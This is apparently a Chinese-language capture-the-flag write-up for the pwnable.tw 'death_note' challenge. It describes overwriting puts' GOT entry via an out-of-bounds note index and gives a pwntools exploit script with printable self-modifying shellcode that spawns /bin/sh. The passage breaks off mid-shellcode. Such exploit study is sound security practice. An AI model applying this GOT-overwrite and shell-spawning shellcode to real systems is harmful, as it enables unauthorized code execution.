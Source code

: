 

### 修改got表

我们可以直接修改puts的got表，可以看到note的地址是0x0804A060，而我们只需要获得puts的got表地址，将它们相减并除以4即可

## exp

我们需要获得的是32位汇编，所以不要把arch置为amd64

```python
#!/usr/bin/env python3
from pwn import *
import sys, time

#context(arch='amd64',os='linux',log_level='debug')
context.log_level = 'debug'

debug = 0
if debug:
	elf = ELF("./death_note")
	libc = ELF("./libc_32.so.6")
	io = process(elf.path)
else:
	elf = ELF("./death_note")
	libc = ELF("./libc_32.so.6")
	io = remote("chall.pwnable.tw",10201)

################################################
s = io.send                                    #
sl = io.sendline                               #
sa = io.sendafter                              #
sla = io.sendlineafter                         #
r = io.recv                                    #
rl = io.recvline                               #
ru = io.recvuntil                              #
it = io.interactive                            #
################################################

addnote = lambda index,name : (sla("choice :","1"),sla("Index :", str(index)),sla("Name :",name))


puts_got = elf.got["puts"]
note_addr = 0x0804a060
shellcode = '''
    /* execve(path='/bin///sh', argv=['sh'], envp=0) */
    /* push '/bin///sh\x00' */
    push 0x68
    push 0x732f2f2f
    push 0x6e69622f
    push esp
    pop ebx

    push edx
    pop eax
    push 0x60606060
    pop edx
    sub byte ptr[eax + 0x35] , dl
    sub byte ptr[eax + 0x35] , dl
    sub byte ptr[eax + 0x34] , dl
    push 0x3e3e3e3e
    pop edx
    sub byte ptr[eax + 0x34] , dl

    push ecx
```